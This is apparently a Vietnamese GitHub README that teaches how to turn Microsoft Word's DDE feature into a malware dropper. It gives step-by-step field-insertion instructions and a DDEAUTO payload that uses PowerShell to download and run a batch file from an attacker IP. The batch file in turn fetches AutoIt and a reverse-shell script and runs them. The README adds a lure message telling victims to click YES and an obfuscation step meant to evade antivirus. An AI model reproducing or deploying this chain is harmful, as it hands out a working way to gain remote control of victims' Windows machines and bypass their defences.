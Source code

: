 # Lạm dụng TÍNH NĂNG hợp pháp của Microsoft Word để thực thi mã độc bất hợp pháp
> Mô tả: Lạm dụng tính năng DDE - Dynamic Data Exchange của Office, cho phép ứng dụng Office tải dữ liệu từ các ứng dụng Office khác. Từ đó, thay vì chèn dữ liệu hợp pháp thì chèn dữ liệu độc hại. ***Ví dụ: file Word có thể cập nhật dữ liệu table bằng cách kéo dữ liệu từ tệp Excel mỗi khi tệp Word được mở.***

Như vậy, DDE có khả năng cho phép file Word mỗi khi được mở, có thể thực thi đoạn mã đang được lưu trữ trong một file khác và cho phép các ứng dụng đó có thể gửi bản cập nhật dữ liệu mới.

Dữ liệu độc hại được thực thi ở đây là 1 câu lệnh sẽ được hiện trên máy victim. Câu lệnh này sẽ tải 1 tập lệnh Batch được host trên máy attack về, và tự động thực thi trên máy victim. Tập lệnh Batch có chức năng giúp attacker tạo 1 reverse shell từ máy victim. Tập lệnh Batch sẽ được mã hóa để bypass hoàn toàn Windows Defender.

Lưu ý: DDE hoàn toàn là 1 TÍNH NĂNG, không phải là lỗ hổng. 

## Thực thi

1. Mở file Word lên, vào Insert -> Quick Parts -> Field…
2. Sẽ có 1 bảng hiện ra, tiến hành click double vào ” = (Formula ) ”
3. 1 dòng chữ sẽ hiện ra, chuột phải vào, chọn “Toggle Field Codes”
4. Thay đổi nội dung như sau: 
```console
{DDEAUTO "C:\\windows\\system32\\cmd.exe /k powershell -NoP -NonI -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.2.39:1113/RVSo.bat', 'RVSo.bat');start 'RVSo.bat' # " "for security reasons click YES"}
```
### Nội dung của file RVSo.bat
```bat
@echo

cd %temp%

curl http://192.168.2.39:1113/autoit/AutoIt3.exe > autoit.exe

curl http://192.168.2.39:1113/autoit/RVS.a3x > reverseShell.a3x
autoit.exe reverseShell.a3x
```
Dùng tool [này](https://github.com/thotrangyeuduoi/toolWin/blob/master/obfuscator.cmd) để mã hóa file RVS.bat nhằm bypass AntiVirus
```cmd
C:\User\Document\obfucator.cmd RVS.bat
```
### File liên quan

[ReverseShell.au3](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ReverseShell_by_Autoit.au3)

Ref: https://anonyviet.com/cach-hacker-bypass-av-xam-nhap-windows-voi-autoit/

     https://anonyviet.com/phuong-phap-phat-tan-virus-bang-file-word/
